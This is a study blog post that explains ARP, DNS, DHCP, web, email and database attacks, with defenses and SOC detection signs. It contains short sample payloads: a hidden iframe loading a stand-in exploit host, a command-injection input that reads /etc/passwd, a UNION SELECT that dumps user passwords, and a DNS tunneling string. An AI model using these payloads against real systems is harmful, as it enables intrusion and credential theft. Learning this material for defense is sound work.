


Today I studied attacks on the services every network depends on. Some work quietly behind the scenes (**ARP, DNS, DHCP**) and some are what users touch directly (**web, email and databases**). I wrote about how ARP, DNS and DHCP work in my networking posts. Now I've seen how each one can be turned against us.

## ARP vulnerabilities

**ARP** finds the MAC address for an IP address on the local network:

1. **ARP request** (broadcast): "Who has 192.168.1.1?"
2. **ARP reply:** "192.168.1.1 is at MAC AA:AA"
3. The answer is saved in the **ARP cache** (you can see it with `arp -a`)

The weakness: ARP has **no authentication**, and devices accept replies even when they never asked. An unsolicited reply is a **gratuitous ARP**. It has legitimate uses, but devices update their caches from it without any check.

### ARP cache poisoning

1. The attacker sends the victim a **spoofed gratuitous ARP reply**: "The router (192.168.1.1) is at *my* MAC."
2. They send the router another one: "The victim is at *my* MAC."
3. Both update their caches.
4. Traffic in both directions now passes through the attacker, who forwards it so nothing looks wrong.
5. The attacker repeats the fake replies so the caches stay poisoned.



The result is a man-in-the-middle position: the attacker can read, change or drop the traffic. Tools like Ettercap and Bettercap make this easy. *Defense:* **Dynamic ARP Inspection (DAI)** on switches, static ARP entries for critical devices, and encryption.

## DNS attacks

DNS is allowed almost everywhere and every connection starts with it, which makes it a favorite target. Many attacks abuse **open resolvers**, which are DNS servers that answer anyone on the internet.

- **DNS cache poisoning:** fake records get into a resolver's cache, so users typing the correct name are sent to the attacker's IP. This is the technique behind **pharming**. *Defense: DNSSEC, random transaction IDs and ports, patching.*
- **DNS amplification and reflection:** small spoofed queries (with the victim's IP as the source) to open resolvers, asking for large answers. The big replies flood the victim. A query of about 60 bytes can produce a reply of several thousand. *Defense: don't run open resolvers, use response rate limiting.*
- **DNS resource utilization:** flooding a DNS server with expensive queries, like random non-existent subdomains (`a8f3k.example.com`), so it runs out of CPU or memory.

## DNS stealth attacks

These aren't about breaking DNS. They use DNS to **hide** the attacker's servers:

- **Fast flux:** the IP addresses behind a malicious domain change every few minutes, rotating through infected machines that act as proxies. Blocking one IP doesn't help.
- **Double IP flux:** both the site's IPs **and** its name servers' IPs keep changing, which makes takedown even harder.
- **Domain generation algorithms (DGAs):** malware generates hundreds of random-looking domains every day (like `kq7zp3mx.com`) to find its command server. The attacker registers just one. Defenders can't block thousands of new domains daily. The **Conficker** worm generated 50,000 per day in one version. *A tell-tale sign:* one machine getting lots of **NXDOMAIN** ("domain doesn't exist") answers.

## DNS tunneling

Data hidden inside DNS queries and replies, using DNS as a secret channel:

```
c3VwZXJzZWNyZXRkYXRh.tunnel.example
```

The random-looking part is encoded data (here, Base64 for "supersecretdata"). It travels through normal DNS to the attacker's server, which decodes it. Replies, often in TXT records, can carry commands back. It's used to **steal data** a bit at a time and to **control malware**.

Signs: very long or encoded subdomains, lots of queries to one domain, and many TXT lookups.

## DHCP attacks

**DHCP** hands out IP address, subnet mask, **default gateway** and **DNS server**. It uses four messages: Discover, Offer, Request, Acknowledge (**DORA**). It also has no authentication, so a client accepts the first offer it gets.

### DHCP spoofing, step by step



1. The client **broadcasts** a Discover message
2. Both servers **respond with offers**; the rogue one often arrives first
3. The client **accepts the rogue offer** and sends a Request
4. The rogue server **acknowledges** it, and the client now uses the attacker's settings

What the attacker can hand out:

| Fake setting | Result |
|---|---|
| Attacker as default gateway | Man-in-the-middle |
| Attacker's DNS server | Users sent to fake sites |
| Bad IP settings | Denial of service |

Attackers often first run **DHCP starvation**, which uses up all the real server's addresses with fake requests. *Defense:* **DHCP snooping** on switches (offers are allowed only from trusted ports) and port security.

## HTTP and HTTPS

**HTTP** sends web traffic in plain text. **HTTPS** adds TLS encryption, protecting the connection and proving the server's identity with a certificate. One thing I want to remember: **HTTPS doesn't mean the site is safe.** Phishing sites have HTTPS too, and encryption can also hide malicious traffic from security tools.

## Common HTTP exploits

- **Malicious iFrames:** an iFrame embeds another page inside a page. Attackers inject an invisible one into a legitimate site:
  ```html
  <iframe src="https://malicious.example/exploit" width="1" height="1" style="display:none"></iframe>
  ```
  Visitors' browsers quietly load the exploit page with no click needed (a **drive-by download**).
- **HTTP 302 cushioning:** "302 Found" is a normal redirect code. Attackers chain several redirects from a compromised site to the exploit server, hiding where the attack really comes from.
- **Domain shadowing:** the attacker steals a real company's domain account and creates lots of subdomains (`xk29.goodcompany.com`) pointing to malicious servers. They inherit the real domain's good reputation, and the owner often doesn't notice.

## Email threats

- **Attachment-based attacks:** Office files with macros, PDFs, zip files, or double extensions like `invoice.pdf.exe`. *Defense: sandboxing, blocking risky file types, macros off by default.*
- **Email spoofing:** SMTP doesn't verify the "From" address. *Defense: SPF, DKIM and DMARC.*
- **Spam:** bulk email, often sent from botnets, carrying phishing and malware.
- **Open mail relays:** misconfigured mail servers that forward mail from anyone to anyone. Spammers abuse them, and the owner's domain gets blacklisted.
- **Homoglyphs:** characters that look identical, like a Cyrillic "а" in `pаypal.com`, or `rn` that looks like `m` in `rnicrosoft.com`. Browsers may show such domains in their `xn--` form (**Punycode**), which is a clue.

## Web-exposed databases

- **Code injection:** input passed straight to a system command. If a "ping a server" feature runs `ping -c 1 USER_INPUT`, then typing `8.8.8.8; cat /etc/passwd` runs a second command, because `;` separates commands in Linux.
- **SQL injection:** besides the login bypass from Part 4, attackers use `UNION SELECT` to pull data from other tables. A product URL like `?id=10 UNION SELECT username, password FROM users` can show every user's login on the product page. *Defense: parameterized queries.*
- **Client-side scripting (XSS):** malicious scripts stored in the database and run in other users' browsers, as covered in Part 4.

## Why this matters for a SOC engineer

- **ARP poisoning:** one MAC suddenly claiming the gateway's IP, or DAI violation logs.
- **Rogue DHCP:** DHCP snooping alerts. An unknown device handing out addresses is urgent.
- **DNS logs** catch a lot: random-looking domains with many NXDOMAINs (DGA), constantly changing IPs with very short TTLs (fast flux), and long encoded subdomains (tunneling).
- **Proxy logs** reveal 302 redirect chains and odd subdomains of legitimate domains.
- **Email headers** with SPF, DKIM and DMARC results are the first stop in phishing triage.

A home lab idea for later: send DNS logs to a SIEM and write rules for long subdomains and high NXDOMAIN rates.

## Questions I should be able to answer

- How does ARP cache poisoning work, and how does DAI stop it?
- Fast flux vs double IP flux?
- What is a DGA, and how can you spot it?
- How would you detect DNS tunneling?
- Walk through a DHCP spoofing attack in four steps.
- What is HTTP 302 cushioning?

## Next

Tonight: defending the network. Worm and attack mitigation, wireless security, firewalls, IDS/IPS, and services like ACLs, syslog, NetFlow and AAA.
